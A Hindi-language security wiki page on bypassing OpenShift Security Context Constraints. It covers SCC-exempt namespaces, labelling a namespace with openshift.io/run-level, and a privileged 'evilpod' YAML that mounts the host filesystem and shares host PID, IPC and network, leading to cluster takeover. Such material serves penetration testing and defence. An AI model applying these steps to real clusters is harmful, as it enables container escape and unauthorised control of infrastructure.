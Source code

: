 # Openshift - SCC bypass

**इस पृष्ठ के मूल लेखक हैं** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

डिफ़ॉल्ट रूप से, SCC निम्नलिखित परियोजनाओं पर लागू नहीं होता है:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

यदि आप इन नामस्थान में पॉड्स तैनात करते हैं, तो कोई SCC लागू नहीं होगा, जिससे विशेषाधिकार प्राप्त पॉड्स की तैनाती या होस्ट फ़ाइल सिस्टम को माउंट करने की अनुमति मिलेगी।

## Namespace Label

RedHat दस्तावेज़ के अनुसार, आपके पॉड पर SCC एप्लिकेशन को अक्षम करने का एक तरीका है। आपको निम्नलिखित में से कम से कम एक अनुमति होनी चाहिए:

- एक Namespace बनाना और इस Namespace पर एक Pod बनाना
- एक Namespace को संपादित करना और इस Namespace पर एक Pod बनाना
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
विशिष्ट लेबल `openshift.io/run-level` उपयोगकर्ताओं को अनुप्रयोगों के लिए SCCs को दरकिनार करने की अनुमति देता है। RedHat दस्तावेज़ के अनुसार, जब इस लेबल का उपयोग किया जाता है, तो उस नामस्थान के सभी पॉड्स पर कोई SCCs लागू नहीं होते हैं, प्रभावी रूप से किसी भी प्रतिबंध को हटा देते हैं।

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## लेबल जोड़ें

अपने नामस्थान में लेबल जोड़ने के लिए:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
YAML फ़ाइल के माध्यम से लेबल के साथ एक नामस्थान बनाने के लिए:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
अब, नामस्थान पर बनाए गए सभी नए पॉड्स में कोई SCC नहीं होनी चाहिए

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC की अनुपस्थिति में, आपके पॉड परिभाषा पर कोई प्रतिबंध नहीं हैं। इसका मतलब है कि एक दुर्भावनापूर्ण पॉड को आसानी से बनाया जा सकता है ताकि वह होस्ट सिस्टम पर भाग सके।
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
अब, होस्ट सिस्टम तक पहुंच के लिए विशेषाधिकार बढ़ाना और इसके बाद पूरे क्लस्टर पर नियंत्रण प्राप्त करना, 'cluster-admin' विशेषाधिकार प्राप्त करना आसान हो गया है। निम्नलिखित पृष्ठ में **Node-Post Exploitation** भाग देखें:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### कस्टम लेबल

इसके अलावा, लक्षित सेटअप के आधार पर, कुछ कस्टम लेबल / एनोटेशन का उपयोग पिछले हमले के परिदृश्य के समान किया जा सकता है। भले ही इसे इसके लिए नहीं बनाया गया हो, लेबल का उपयोग अनुमतियों को देने, किसी विशेष संसाधन को प्रतिबंधित करने या नहीं करने के लिए किया जा सकता है।

यदि आप कुछ संसाधनों को पढ़ सकते हैं तो कस्टम लेबल की तलाश करने का प्रयास करें। यहाँ कुछ दिलचस्प संसाधनों की सूची है:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## सभी विशेषाधिकार प्राप्त नामस्थान सूचीबद्ध करें
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

OpenShift में, जैसा कि पहले दिखाया गया है, एक namespace में `openshift.io/run-level` लेबल के साथ pod को तैनात करने की अनुमति होना क्लस्टर का सीधा अधिग्रहण करने की ओर ले जा सकता है। क्लस्टर सेटिंग्स के दृष्टिकोण से, यह कार्यक्षमता **अक्षम नहीं की जा सकती**, क्योंकि यह OpenShift के डिज़ाइन में अंतर्निहित है।

हालांकि, **Open Policy Agent GateKeeper** जैसी शमन उपाय उपयोगकर्ताओं को इस लेबल को सेट करने से रोक सकते हैं।

GateKeeper के नियमों को बायपास करने और क्लस्टर अधिग्रहण को निष्पादित करने के लिए इस लेबल को सेट करने के लिए, **हमलावरों को वैकल्पिक तरीकों की पहचान करनी होगी।**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
